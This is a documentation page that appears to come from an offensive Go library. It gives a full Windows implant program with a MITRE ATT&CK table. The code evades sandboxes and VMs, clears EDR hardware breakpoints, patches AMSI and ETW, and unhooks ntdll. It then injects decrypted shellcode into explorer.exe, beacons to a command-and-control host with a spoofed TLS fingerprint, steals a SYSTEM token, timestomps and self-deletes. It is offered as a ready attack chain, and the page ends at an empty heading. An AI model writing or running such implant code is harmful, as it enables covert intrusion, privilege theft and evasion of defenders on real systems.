


# Example: Full Attack Chain

[← Back to README](../../README.md)

A complete implant lifecycle: reconnaissance → evasion → injection → persistence → cleanup.



## Code

```go
package main

import (
    "context"
    "os"
    "time"

    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/cleanup/selfdelete"
    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/antivm"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/hwbp"
    "github.com/oioio-space/maldev/evasion/sandbox"
    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/evasion/timing"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/process/enum"
    "github.com/oioio-space/maldev/win/token"
    winver "github.com/oioio-space/maldev/win/version"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // ── Phase 1: Reconnaissance ─────────────────────────────────

    // Anti-sandbox: CPU burn defeats Sleep fast-forwarding
    timing.BusyWaitTrig(200 * time.Millisecond)

    // Check if we're in a VM
    if vmName, _ := antivm.Detect(antivm.DefaultConfig()); vmName != "" {
        os.Exit(0) // abort in VM
    }

    // Check sandbox indicators
    checker := sandbox.New(sandbox.DefaultConfig())
    if sandboxed, _ := checker.IsSandboxed(); sandboxed {
        os.Exit(0) // abort in sandbox
    }

    // Verify vulnerable Windows version (if exploiting CVE)
    ver, _ := winver.Windows()
    _ = ver // use for version-specific behavior

    // ── Phase 2: Evasion ────────────────────────────────────────

    // Clear hardware breakpoints (CrowdStrike, SentinelOne)
    hwbp.ClearAll()

    // Create indirect syscall Caller with API hashing
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHashGate(), wsyscall.NewHellsGate()))

    // Disable all defenses
    evasion.ApplyAll([]evasion.Technique{
        amsi.ScanBufferPatch(),
        amsi.OpenSessionPatch(),
        etw.All(),
        unhook.Full(),
    }, caller)

    // ── Phase 3: Inject ─────────────────────────────────────────

    // Decrypt shellcode (AES-256-GCM)
    key := []byte{/* 32-byte key from build */}
    shellcode, _ := crypto.DecryptAESGCM(key, []byte{/* encrypted payload */})

    // Find target process
    procs, _ := enum.FindByName("explorer.exe")
    if len(procs) == 0 {
        return
    }
    targetPID := int(procs[0].PID)

    // Inject via section mapping (no WriteProcessMemory)
    inject.SectionMapInject(targetPID, shellcode, caller)

    // Cleanup shellcode from our memory
    memory.SecureZero(shellcode)

    // ── Phase 4: C2 Communication ───────────────────────────────

    // Connect with Chrome JA3 fingerprint
    c2 := transport.NewUTLS("c2.example.com:443", 30*time.Second,
        transport.WithJA3Profile(transport.JA3Chrome),
        transport.WithUTLSInsecure(true),
    )
    ctx := context.Background()
    c2.Connect(ctx)
    defer c2.Close()

    // ── Phase 5: Post-Exploitation ──────────────────────────────

    // Steal SYSTEM token from winlogon
    tok, _ := token.StealByName("winlogon.exe")
    if tok != nil {
        defer tok.Close()
        tok.EnableAllPrivileges()
        // Use tok for elevated operations...
    }

    // ── Phase 6: Cleanup ────────────────────────────────────────

    // Timestomp our binary to blend in
    timestomp.SetFull(os.Args[0],
        time.Date(2023, 6, 15, 10, 0, 0, 0, time.UTC),
        time.Date(2023, 6, 15, 10, 0, 0, 0, time.UTC),
        time.Date(2023, 6, 15, 10, 0, 0, 0, time.UTC),
    )

    // Self-delete the binary from disk
    selfdelete.Run()
}
```

## Phase-by-Phase Explanation

| Phase | Techniques Used | MITRE | Purpose |
|-------|----------------|-------|---------|
| **Recon** | BusyWaitTrig, antivm, sandbox | T1497 | Abort if analyzed |
| **Evasion** | HW breakpoints, AMSI, ETW, unhook | T1562 | Blind the defenses |
| **Inject** | Section mapping + Caller | T1055 | Execute in target |
| **C2** | uTLS + Chrome JA3 | T1573 | Covert communication |
| **Post-Ex** | Token theft + privilege | T1134 | Elevate to SYSTEM |
| **Cleanup** | Memory wipe, timestomp, self-delete | T1070 | Cover tracks |

## OPSEC Layers Active


